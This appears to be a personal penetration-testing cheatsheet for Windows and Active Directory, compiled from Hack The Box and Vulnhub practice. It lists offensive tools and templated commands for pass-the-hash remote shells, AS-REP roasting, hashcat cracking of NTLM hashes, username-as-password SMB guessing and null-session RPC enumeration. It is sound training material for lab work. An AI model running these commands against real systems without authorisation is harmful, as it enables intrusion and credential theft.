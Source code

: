# pentest cheatsheet

> personal cheathsheet populated via my [HTB](https://www.hackthebox.eu/) and [Vulnhub](https://www.vulnhub.com/) experience.

## Windows

- MUST SEE: [VbScrub - Tutorials](https://www.youtube.com/playlist?list=PL3B8L-z5QU-Yw80HOGXXUASBfv_K1WwO5)

### Tools

- [LOLBAS](https://lolbas-project.github.io/#) _(GTFOBins version Windows)_
	+ [GTFOBLookup](https://github.com/nccgroup/GTFOBLookup): offline command line lookup utility
- [PEASS - Privilege Escalation Awesome Scripts SUITE](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite#peass---privilege-escalation-awesome-scripts-suite)
	+ [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) _(Une sorte de LinEnum pour Windows)_
- [mimikatz](https://github.com/gentilkiwi/mimikatz#mimikatz)
- [dnSpy](https://github.com/0xd4d/dnSpy#dnspy---latest-release---%EF%B8%8F-donate): debugger and .NET assembly editor.
- [BloodHound](https://github.com/BloodHoundAD/Bloodhound/wiki): reveal the hidden and often unintended relationships within an Active Directory environment. 

### Shell

- `evil-winrm -i <ip> -u <username> -p <password>`
- PassTheHash: `evil-winrm -i <ip> -u <username> -H <NTLM_HASH>`

```powershell
*Evil-WinRM* PS C:\Users\svc_loanmgr\Videos> NET USER # list users
```

### LDAP

- `ldapsearch -h <IP> -x -s base namingcontexts` 
- `ldapsearch -h <IP> -x -b "<distinguishedName>" | grep "^dn"`

### Kerberos

- `python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py <distinguishedName>/<username> -request -dc-ip <IP> [-no-pass -usersfile users.txt]`
- Kerberos 5 AS-REP etype 23 `hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`. See [](https://hashcat.net/wiki/doku.php?id=hashcat)

### Samba

- `smbclient -L //<IP>/<Sharename> -U "username%password"`
- `for u in $(cat usernames.txt); do echo "User: $u"; smbclient -L //<IP>/ -U "$u%$u"; done`

### RPC

```bash
rpcclient -U "" $IP
<empty password>
rpcclient $> srvinfo       # identify the specific OS version
rpcclient $> enumdomusers  # display a list of users names defined on the server
rpcclient $> getdompwinfo  # get SMB password policy
rpcclient $> querydispinfo # get users info
```

### Misc

- Crack NTML hashes: `hashcat -a 0 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt`

## Linux

> **TODO**

